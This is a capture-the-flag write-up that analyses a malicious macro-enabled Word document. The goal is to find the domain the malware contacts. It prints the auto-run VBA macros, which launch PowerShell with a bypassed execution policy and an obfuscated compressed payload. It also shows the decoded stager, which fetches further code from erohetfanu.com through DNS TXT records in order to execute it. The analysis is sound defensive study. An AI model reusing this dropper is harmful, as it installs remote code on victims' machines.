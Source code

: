 
## Identify the Domain
> Using the Word docm file, identify the domain name that the malware communicates with.

0. I'm using LibreOffice, but you can also use `docker run --rm -it --name oletools -v $(pwd):/srv:ro jorgeandrada/oletools:latest sh` instead. Just don't run the macros. Please.
1. Opened the document with LibreOffice, macros off. Used `Tools > Macros > Edit macros` to edit them, found these:

```VBScript
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Private Sub Document_Open()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

```

Deobfuscated, it would look like:

```
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object;

payload = 'lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'

## iex(
  a IO.StreamReader(
    (a IO.Compression.DeflateStream(
      [IO.MemoryStream][Convert]::FromBase64String(payload),
      [IO.Compression.CompressionMode]::Decompress
    )),
    [Text.Encoding]::ASCII)
)
## .ReadToEnd()"" "

```

Used a (small PHP script)[../scripts/decode_macro_payload.php] to decode and deflate, and obtained the following code (rewrote to be easier to read):
```VBScript
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o};
$f = "77616E6E61636F6F6B69652E6D696E2E707331";
$h = "";

upperLimit = ([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)
foreach ($i in 0..upperLimit)  {
  $h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings
};

decoded = $(H2A $h | Out-string)

# iex(decoded)


```

The answer to the challenge is: `erohetfanu.com`

Bonus track, what does `77616E6E61636F6F6B69652E6D696E2E707331` mean?: `wannacookie.min.ps1` :)
